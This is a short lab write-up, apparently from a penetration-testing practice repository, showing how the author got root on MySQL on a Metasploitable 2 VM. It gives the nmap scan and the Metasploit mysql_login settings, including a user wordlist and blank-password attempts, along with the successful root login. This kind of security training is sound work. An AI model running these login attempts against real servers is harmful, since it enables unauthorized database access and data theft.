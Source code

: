# 🛢️ MySQL Blank Password Exploit (Port 3306)

> This section explains how I exploited the MySQL service on Metasploitable 2 by attempting logins with blank or weak passwords.

---

## 🔍 Service Discovery

```bash
nmap -sV -p 3306 192.168.182.128
```

📌 Output:
- MySQL 5.0.51a-3ubuntu5

---

## 🔐 Step 1: Login Attempt via Metasploit

Metasploit Module:
```bash
use auxiliary/scanner/mysql/mysql_login
set RHOSTS 192.168.182.128
set USER_FILE /usr/share/metasploit-framework/data/wordlists/unix_users.txt
set BLANK_PASSWORDS true
run
```

📌 Result:
```bash
[+] 192.168.182.128:3306 - Login Successful: 'root' : ''
```

✅ Root user authenticated with a blank password.

---

## 🧠 Step 2: Implications

- Direct access to the MySQL database as `root`
- Ability to dump databases, create users, and modify data

---

## 🔐 Summary

| Element       | Details                              |
|---------------|---------------------------------------|
| Service       | MySQL 5.0.51a                         |
| Exploit       | Blank password login                  |
| Tool Used     | Metasploit `mysql_login`              |
| Credentials   | root / (blank)                        |
| Access Gained | MySQL root access                     |


